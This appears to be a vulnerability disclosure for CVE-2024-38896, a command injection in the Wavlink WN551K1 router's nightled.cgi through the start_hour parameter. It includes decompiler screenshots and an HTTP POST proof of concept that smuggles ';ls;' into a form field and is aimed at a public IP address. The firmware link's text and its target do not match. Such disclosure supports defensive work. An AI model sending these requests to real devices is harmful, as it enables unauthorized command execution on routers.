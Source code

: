 #  WAVLINK WN551K1 found a command injection vulnerability through the start_hour parameter of /cgi-bin/nightled.cgi.

Product: Wavlink WN551K1

Manufacturer's website information：https://www.wavlink.com/en_us/index.html

Firmware download address ：[https://files.wavlink.com/fw/mesh/WN551K1%2CK2%2CK3-C-WAVLINK-WO-20210427-1087985](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-38896

### Analysis

First, set the **page** parameter to **night_led**

![image](image.png)

Then set the parameter **v6**, which is copied to buffer v33 without any filtering and can be executed

![image-20240624094851779](./image-20240624094851779.png)

![image-20240624094925963](./image-20240624094925963.png)

### POC

```python
POST /cgi-bin/nightled.cgi HTTP/1.1
Host: 42.2.134.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Upgrade-Insecure-Requests: 1


page=night_led&start_hour=;ls;
```

![image-20240624095107782](./image-20240624095107782.png)

